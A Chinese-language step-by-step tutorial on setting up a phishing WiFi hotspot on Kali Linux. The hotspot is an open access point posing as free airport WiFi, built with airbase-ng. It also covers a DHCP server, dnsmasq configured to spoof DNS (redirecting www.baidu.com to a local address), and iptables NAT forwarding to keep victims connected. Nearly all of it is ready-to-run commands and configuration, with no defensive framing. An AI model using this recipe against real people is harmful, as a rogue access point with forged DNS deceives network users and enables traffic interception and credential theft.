 ## 0x00 钓鱼热点介绍

钓鱼WIFI是一个持久的安全话题，今天测试一下

基本环境:
1. 网卡:Netgear WNA1100
2. 操作系统:Kali Rolling

首先看一下网口环境
![](README/luffy1.png)

eth0是有线网口，用来连接网络的，wlan0就是用来做热点的无限网卡

kali默认已经安装了aircrack-ng，还需要做dhcp服务的isc-dhcp-server和提供dns服务的dnsmasq

```
apt-get install isc-dhcp-server dnsmasq
```

## 0x01 配置无线热点

利用airbase-ng开启热点

```
airmon-ng check kill
airmon-ng start wlan0
airbase-ng --essid=AIRPORT-FREE-WIFI -P -C 30 -v wlan0mon 
```


![](README/luffy2.png)


编辑/etc/dhcp/dhcpd.conf,最后添加
```
authoritative;

default-lease-time 700;
max-lease-time 8000;

subnet 10.0.0.0 netmask 255.255.255.0 {
option routers 10.0.0.1;
option subnet-mask 255.255.255.0;

option domain-name-servers 10.0.0.1;

range 10.0.0.10 10.0.0.100;

}
```


为热点提供dhcp服务
```
ifconfig at0 up
ifconfig at0 10.0.0.1 netmask 255.255.255.0
route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhcpd.pid at0
```


## 0x02  配置dns服务器
dns服务由dnsmasq提供，这边需要编辑/etc/dnsmasq.conf的文件

1. 取消 resolv-file=/etc/dnsmasq.resolv.conf的注释，表示dnsmasq 会从这个指定的文件中寻找上游dns服务器。同时取消 strict-order 前面的注册#号。
```
    44  # Change this line if you want dns to get its upstream servers from
    45  # somewhere other that /etc/resolv.conf
    46  resolv-file=/etc/dnsmasq.resolv.conf
    47
    48  # By  default,  dnsmasq  will  send queries to any of the upstream
    49  # servers it knows about and tries to favour servers to are  known
    50  # to  be  up.  Uncommenting this forces dnsmasq to try each query
    51  # with  each  server  strictly  in  the  order  they   appear   in
    52  # /etc/resolv.conf
    53  strict-order
```
2. 删除addn-hosts前的注释#号，通过这个文件可以操控域名解析
```
   126  # If you don't want dnsmasq to read /etc/hosts, uncomment the
   127  # following line.
   128  #no-hosts
   129  # or if you want it to read another file, as well as /etc/hosts, use
   130  # this.
   131  addn-hosts=/etc/dnsmasq.hosts
```
 
3. 设置：listen-address=127.0.0.1，表示这个 dnsmasq 本机自己使用有效。注意：如果你想让本机所在的局域网的其它电脑也能够使用上Dnsmasq，应该把本机的局域网IP加上去：
```
111 listen-address=10.0.0.1,127.0.0.1
```


3. 修改dns解析文件
```
echo 'nameserver 114.114.114.114' > /etc/dnsmasq.resolv.conf
echo '192.168.1.6 www.baidu.com' > /etc/dnsmasq.hosts
#然后就可以启动dnsmasq
service dnsmasq start
#启动dhcp
service isc-dhcp-server start
```

## 0x03 配置流量转发

要想让连接热点的客户端删上网，需要把wlan0的流量牵引到eth0上

```
sudo sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE  
sudo iptables -A FORWARD -i eth0 -o wlan0 -m state --state RELATED,ESTABLISHED -j ACCEPT  
sudo iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
```



